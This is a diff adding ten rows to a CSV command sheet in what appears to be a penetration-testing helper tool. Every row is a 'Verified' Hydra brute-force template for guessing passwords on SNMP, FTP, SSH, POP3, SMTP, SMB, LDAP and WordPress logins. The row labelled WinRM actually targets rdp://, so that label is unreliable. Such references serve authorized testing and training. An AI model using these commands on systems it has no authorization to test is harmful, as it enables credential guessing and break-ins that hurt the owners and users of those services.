

Before and after one commit to CoolHandSquid/TireFire, a CSV file: Main.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added frizb/Hydra-Cheatsheet

```diff
--- a/Main.csv
+++ b/Main.csv
+row 85: Hydra | Hydra | Brute Force | SNMP | Need=Nothing | hydra -P {Big_Passwordlist} -v {IP} snmp | Verified | 9
+row 86: Hydra | Hydra | Brute Force | FTP | Need=User | hydra -t 1 -l {Username} -P {Big_Passwordlist} -vV {IP} ftp | Verified | 2
+row 87: Hydra | Hydra | Brute Force | SSH | Need=Neither or One | hydra -v -V -u -L {Big_Userlist} -P {Big_Passwordlist} -t 1 -u {IP} ssh | Verified | 3
+row 88: Hydra | Hydra | Brute Force | POP3 | Need=User | hydra -l {Username} -P {Big_Passwordlist} -f {IP} pop3 -V | Verified | 6
+row 89: Hydra | Hydra | Brute Force | Resource | Link to Cheetsheet | #https://github.com/frizb/Hydra-Cheatsheet | Verified | 1
+row 90: Hydra | Hydra | Brute Force | SMTP | Need=Nothing | hydra -P {Big_Passwordlist} {IP} smtp -V | Verified | 4
+row 91: Hydra | Hydra | Brute Force | WinRM | Need=User | hydra -t 1 -V -f -l {Username} -P {Big_Passwordlist} rdp://{IP} | Verified | 10
+row 92: Hydra | Hydra | Brute Force | SMB | Need=User | hydra -t 1 -V -f -l {Username} -P {Big_Passwordlist} {IP} smb | Verified | 7
+row 93: Hydra | Hydra | Brute Force | WordPress | Need=User (admin is default) | hydra -l admin -P {Big_Passwordlist} {IP} -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' | Verified | 5
+row 94: Hydra | Hydra | Brute Force | LDAP | Need=Neither | hydra -L users.txt -P passwords.txt {IP} ldap2 -V -f | Verified | 8
```
